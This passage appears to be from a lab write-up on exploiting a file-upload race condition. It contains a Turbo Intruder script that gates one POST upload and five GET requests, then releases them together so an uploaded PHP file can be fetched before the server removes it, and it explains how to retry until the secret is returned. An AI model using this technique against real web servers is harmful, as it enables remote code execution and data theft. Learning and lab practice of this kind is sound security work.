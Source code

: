 In the **Turbo Intruder** script section, paste the below code:

```python
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=10,
                           requestsPerConnection=100,
                           pipeline=False
                           )

    PostReq = '''<Your POST Request>'''

    GetReq = '''<Your GET Request>'''

    engine.queue(PostReq, gate='race1')
    for x in range(5):
        engine.queue(GetReq, gate='race1')

    engine.openGate('race1')

    engine.complete(timeout=60)
    
    
def handleResponse(req, interesting):
    table.add(req)
```

- **Code explaination**
    
    The `gate` argument in `engine.queue` has function to block the final byte of each request until `openGate` is invoked. Which means all of the requests will be put there in a READY position but not executed yet.
    
    After that, when we trigger `engine.openGate('race1')`, it will “open the gate” then all the requests will be executed in order POST → 5 GET right after that
    

Replace `<Your POST Request>` and `<Your GET Request>` with the content of your POST and GET request (don’t reformat anything, just paste in and let it be, or else the Python will not understand the format of your input)

What this script will do is it will trigger the POST request first, after that, it will **instantly** send 5 GET requests trying to fetch the output of our `.php` file.

Click **Attack** button, we will notice there will be a request with status **200** contains the secret.

If you’re unlucky enough to receive all 5 `404` results, just retry until you get the **200**.
